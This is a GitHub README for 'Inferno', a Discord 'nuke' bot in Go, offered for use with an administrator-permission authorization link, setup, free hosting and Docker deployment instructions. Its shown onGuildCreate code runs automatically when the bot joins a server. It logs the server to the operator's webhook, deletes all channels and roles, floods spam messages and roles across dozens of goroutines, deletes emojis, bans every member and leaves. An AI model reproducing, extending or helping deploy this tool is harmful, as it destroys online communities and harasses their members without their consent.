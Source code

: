 <img src="https://media.discordapp.net/attachments/1109426745012142081/1183350870079971449/IMG_9567.png?ex=65880461&is=65758f61&hm=44475ba2ed4ff3a5e0a01e530660de151736d11b3038d632fbb672e66a0bd8cf&=&format=webp&quality=lossless&width=1202&height=657">

# Inferno Discord Bot
A powerful Discord nuke bot written on Go

   * [Bot's authorization link](https://discord.com/api/oauth2/authorize?client_id=1193564970751901776&permissions=8&scope=bot)
   * [Discord Server](https://discord.gg/kAfuNzeUDx)
<hr>

## Big thanks to [morg](https://github.com/00-Morg-00)
for code improvements

# .env file
There's many variables such as 

<pre>
{
    BOT_TOKEN: bot's token
    BOT_OWNER_ID: your id

    WEBHOOK_URL: Webhook's URL
    AVATAR_URL: avatar url for webhook

    CHANNEL_NAME: name of the channel
    SERVER_NAME: name of the server
    ROLE_NAME: name of the role

    EMBED_TITLE: Embed's title
    EMBED_DESCRIPTION: Embed's description

}
</pre>
All values are have string data type

# Code Structure
All bot functions are in cogs folder
<pre>
    main.go
    overcharge.go
    auto.go
    .env
    avatar.webp
    - cogs
      - channels.go
      - emoji.go
      - leave.go
      - members.go
      - rename.go
      - roles.go
      - webhooks.go
</pre>

# main.go & auto.go
main.go - launches bot and OnGuildCreate handler from auto.go
<pre>
    sess.AddHandler(onGuildCreate) - function onGuildCreate is located in auto.go file
</pre>
<hr>
auto.go - launches bot functions from cogs folder if bot joined the guild
<pre>
func onGuildCreate(s *discordgo.Session, event *discordgo.GuildCreate) {
  var wg sync.WaitGroup

	cogs.Logs(s, event)
	cogs.GuildRename(s, event)

	wg.Add(1)
	go func() {
		defer wg.Done()
		channels, _ := s.GuildChannels(event.ID)
		cogs.DeleteChannels(s, channels, &wg)
	}()
	wg.Wait()

	for i := 0; i < 50; i++ {
		wg.Add(1)
		go func() {
			defer wg.Done()
			cogs.TextSpam(s, event, &wg)
		}()
	}
	wg.Wait()

	wg.Add(1)
	go func() {
		defer wg.Done()
		cogs.DeleteRoles(s, event)
	}()
	wg.Wait()

	for i := 0; i < 40; i++ {
		wg.Add(1)
		go func() {
			defer wg.Done()
			cogs.RolesSpam(s, event)
		}()
	}
	wg.Wait()

	cogs.EmojiDelete(s, event)
	cogs.MemberBan(s, event)
	cogs.BotLeave(s, event)
}
</pre>

# cogs folder
There's located all bot's functions.
<pre>
	channels.go: 2 functions (DeleteChannels, TextSpam)
	emoji.go: 1 function that deletes all emojies from the server
	leave.go: 1 function that leaves from the server
	members.go: 1 function that bans all members from the server
	rename.go 1 function that renames the server 
	roles.go: 2 functions that deletes and creates roles (DeleteRoles, RolesSpam)
	webhooks.go: 2 functions that send logs via webhook before nuke bot starts other functions
	overcharge.go: leaves every server owner write ".overcharge_leave"
</pre>

# Installation guide
<pre>
	1. Clone or download repository's source code
	2. Install golang
	3. Go to Inferno folder
	4. Change values in .env
	5. Run go build Inferno && ./Inferno
</pre>

# Where to host?
We recommend you to use <a href="https://fl0.com">fl0.com</a>, <a href="https://koyeb.com">koyeb.com</a>, <a href="https://back4app.com">back4app.com</a> or <a href="https://render.com">render.com</a>. They're free and there you can host Inferno and other discord bots. More information about other hostings are <a href="https://github.com/DmitryScaletta/free-heroku-alternatives">here</a>

# Deploy guide
First of all, copy all source code to your private repository. Then create an account on railway.app via github. Use Dockerfile for quick deployment. Railway.app is one of the best free hosting provider, where you don't need to add http server to your bot for 100% uptime. 

# Dockerfile example
<pre>
# For deployment on railway.app
FROM golang:latest

WORKDIR /Inferno

COPY . .

RUN go build Inferno

CMD [ "./Inferno" ]
</pre>

<pre>
# For deployment on render.com and others
FROM golang:latest

WORKDIR /Inferno

COPY . .

RUN go build Inferno

EXPOSE 8080

CMD [ "./Inferno" ]
</pre>

If you want to deploy your fork on render.com, add code snippet bellow to main.go
<pre>
// imports
import (
	"fmt"
	"io"
	"log"
	"net/http"
	"os"
	"os/signal"
	"syscall"
	"time"

	"github.com/bwmarrin/discordgo"
	"github.com/joho/godotenv"
)

//starts http server
func main() {
	go func() {
		http.HandleFunc("/", getRoot)
		err := http.ListenAndServe(":8080", nil)
		if err != nil {
			log.Fatal(err)
		}
	}()

}

func getRoot(w http.ResponseWriter, r *http.Request) {
	fmt.Printf("got / request\n")
	io.WriteString(w, "Inferno is at render.com now.. 🚀\n")
}
</pre>

